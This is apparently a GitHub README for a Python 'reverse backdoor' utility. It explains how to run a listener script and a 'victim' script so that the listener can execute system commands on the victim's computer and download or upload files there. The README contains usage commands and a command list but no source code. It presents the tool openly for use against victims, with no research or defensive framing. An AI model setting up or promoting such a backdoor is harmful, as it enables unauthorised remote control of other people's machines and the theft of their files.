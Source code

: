 # reverse_backdoor
Simple reverse backdoor utility, that uses sockets to communicate.

## How to use

1. Run rev_bd_listener.py using command below:
```
$ python3 rev_bd_listener.py
```
2. Change IP address to the one you wish to connect to in rev_bd_victim.py.

3. Run rev_bd_victim.py on the victim's computer:
```
$ python3 rev_bd_victim.py
```
4. Now you can execute system commands on victim's PC from listener's PC, download files from the victim, upload files to the victim.


Available custom commands:
```
$ download <path_to_file_on_victim>
$ upload <path_to_file_on_listener>
$ cd
$ quit
```
